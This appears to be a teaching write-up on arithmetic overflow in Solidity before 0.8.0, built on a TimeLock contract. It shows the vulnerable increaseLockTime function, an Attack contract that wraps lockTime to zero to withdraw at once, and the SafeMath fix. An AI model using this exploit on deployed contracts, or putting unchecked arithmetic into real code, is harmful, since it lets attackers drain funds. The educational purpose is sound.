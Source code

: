 # Arithmetic Overflow / Underflow Attack in Solidity

---

## 1. What is Arithmetic Overflow / Underflow in Solidity?

* In Solidity versions **<0.8.0**, arithmetic operations on `uint` (unsigned integers) **do not revert** when they exceed their maximum or minimum values.
* Instead, they **wrap around**:

  * **Overflow**: if result > `2^256 - 1`, it wraps back to `0`.

    ```solidity
    uint8 x = 255; 
    x = x + 1; // x becomes 0
    ```
  * **Underflow**: if result < `0`, it wraps around to the maximum value.

    ```solidity
    uint8 y = 0; 
    y = y - 1; // y becomes 255
    ```

This behavior can be exploited if contracts rely on arithmetic for security conditions.

---

## 2. Understanding the Vulnerable Contract (`TimeLock`)

The **TimeLock** contract is meant to:

* Allow deposits.
* Force users to wait at least **1 week** before withdrawing.
* Let users extend their lock time.

### Functions:

* `deposit()`:

  * Stores deposited Ether in `balances[msg.sender]`.
  * Sets `lockTime[msg.sender] = block.timestamp + 1 weeks`.

* `increaseLockTime(uint256 _secondsToIncrease)`:

  * Increases the lock time.
  * **Vulnerability**: If `lockTime` overflows, it can wrap to a very small value or even `0`.

* `withdraw()`:

  * Requires:

    * The user has funds.
    * `block.timestamp > lockTime[msg.sender]`.
  * Transfers funds.

---

## 3. The Attack

The `Attack` contract exploits the overflow.

### Attack Strategy:

1. Deposit Ether (so lockTime is set to `now + 1 week`).
2. Calculate how much to **increase** lock time so it overflows back to `0`:

   ```solidity
   x = type(uint256).max + 1 - lockTime[address(this)]
   ```

   * Here `type(uint256).max = 2^256 - 1`.
   * Adding this value causes:

     ```
     lockTime + x = 2^256 = 0 (wrapped around)
     ```
3. After overflow, `lockTime[address(this)]` becomes `0`.
4. Since `block.timestamp > 0`, withdrawal succeeds immediately.

---

## 4. Walkthrough of the Given Code

### TimeLock

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value; // Track user funds
    lockTime[msg.sender] = block.timestamp + 1 weeks; // Enforce 1 week wait
}
```

```solidity
function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] += _secondsToIncrease; // Vulnerable: no overflow check
}
```

```solidity
function withdraw() public {
    require(balances[msg.sender] > 0, "Insufficient funds");
    require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

    uint256 amount = balances[msg.sender];
    balances[msg.sender] = 0;

    (bool sent,) = msg.sender.call{value: amount}("");
    require(sent, "Failed to send Ether");
}
```

### Attack

```solidity
function attack() public payable {
    timeLock.deposit{value: msg.value}();

    // Craft malicious lock time increment
    timeLock.increaseLockTime(
        type(uint256).max + 1 - timeLock.lockTime(address(this))
    );

    // Withdraw immediately (lockTime = 0 after overflow)
    timeLock.withdraw();
}
```

---

## 5. Why This Works Only in Solidity <0.8.0

* In Solidity `0.8.0` and above, arithmetic overflow/underflow **throws an error** automatically.
* That’s why in newer contracts, this attack won’t work unless the developer explicitly disables checks with `unchecked { ... }`.

---

## 6. Fixing the Vulnerability

To fix it (for Solidity <0.8.0):

* Use **SafeMath** library (from OpenZeppelin) to handle overflows safely.

Example:

```solidity
using SafeMath for uint256;

function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
}
```

In Solidity ≥0.8.0:

* No extra library is needed since overflow checks are built-in.

---

✅ In short:
This exploit relies on **overflowing the `lockTime`** so that the waiting period is bypassed, allowing instant withdrawal.
